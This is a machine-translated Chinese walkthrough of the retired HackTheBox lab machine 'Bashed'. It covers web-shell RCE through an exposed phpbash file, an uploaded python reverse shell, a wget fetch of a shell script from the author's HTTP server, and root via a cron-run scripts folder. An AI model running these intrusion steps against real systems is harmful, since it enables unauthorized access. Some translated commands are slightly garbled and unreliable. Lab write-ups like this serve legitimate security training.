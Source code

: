 # Bashed 走过

> 原文：<https://infosecwriteups.com/bashed-walk-through-36374a640bcc?source=collection_archive---------0----------------------->

![](img/49163ebae99309adef1cc96adfc992d5.png)

Bashed 是 Hackthebox 上的一个 CTF 盒子，它很快就要退役了，所以我想我应该写一个穿越。

所以像往常一样，我通过 nmap 扫描开始了对盒子的侦察，并发现了以下结果。

![](img/c0642defb144fc8584d6c6af0d21c64c.png)

Nmap 扫描结果

端口 80 打开，打开我的浏览器，输入 IP，我看到一个网页，我注意到的第一件事是这个..

![](img/f9186af181c5b8b980904a07be79ac45.png)

所以在服务器上有一个名为 phpbash 的文件，所以是时候暴力破解一些目录了，所以我用默认选项启动 DIRB 并找到了一些目录。

![](img/186c318e938096cb25248ecd6a6919ec.png)

在 dev 目录中，我找到了 phpbash 文件，它是即时 RCE。

![](img/706f9d407af623a555a5cebdc21cb310.png)![](img/6f9bef3de79fe14aaf71c6586e862a8c.png)

所以我得到了外壳和用户标志，但我对这个外壳不满意，所以它被放到了“ **tmp** 目录，我上传了我的 [**python 反向外壳**](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 到那里，并连接到我的机器上。

![](img/453314c0ffe13b523c5ef01356ae204c.png)

所以下一步是检查 **PRIV ESC** ，所以我使用 [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) 来检查**权限提升**，发现了一些有趣的东西。

![](img/0a4b2cf94f23d82ee95f0957926c051f.png)

我们可以在不提供密码的情况下从 www-data 更改为用户 scriptmanager(也可以通过键入 sudo -l 来检查这些)

所以我切换到 scriptmanager，通常命令是“ *sudo -u username* ”，但由于某种原因，我不能这样做，所以我想出了另一个主意

![](img/58e7ac94839df025f83145266cf87f0c.png)

我们还可以在切换到另一个用户时执行命令，例如在执行脚本管理器的 whoami 时，将类似于"*sudo-u script manager whoami "*将返回输出作为 **scriptmanager** 因此，我更改了我的 python shell 的端口，启动了一个 python HttpServer，并使用 wget，同时切换到脚本管理器" sudo-u script manager "**wget IP:8000/shell . py**

然后我启动了一个 netcat 监听器并执行了 python shell，这次我需要指定 python 的完整路径，并且我是 scriptmanager。

![](img/45f42c469599822a2e4556ec8d3b8c1d.png)![](img/fd7fdc957cbe4728092ffa117517e9ac.png)

当我执行“ **ls -la** ”时，我注意到一个名为 scripts 的目录。我看到 scripts 文件夹属于 scriptmanager，并且我发现 script 目录中的任何内容都由 root 每 2 或 3 分钟执行一次。(在 LinEnum.sh 输出中找到)

![](img/bc83edb587f011785b7d7b7766a0a0cb.png)

盒子里还有一个人

![](img/469e5723cbaff40735df3394fb60d8be.png)

shell 脚本再次将端口号 wget 更改为 box 并启动 netcat 监听器，现在这是一个等待的游戏，当 cronjob 执行时，我将获得一个 shell 作为 root

![](img/b8c5a8a14db11cf7ac6d504c1204c6d5.png)![](img/65f36ef172a09b582a0009508a3895e3.png)

玩 HTB 极大地帮助了我获得新的技能，结交来自其他国家的好朋友，玩得开心。

对于新来的人，我强烈推荐你观看 [Ippsec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) 的视频

玩得开心…

这是[我](https://www.hackthebox.eu/home/users/profile/5938)

![](img/bd28899c170e96909f6670f4de167edb.png)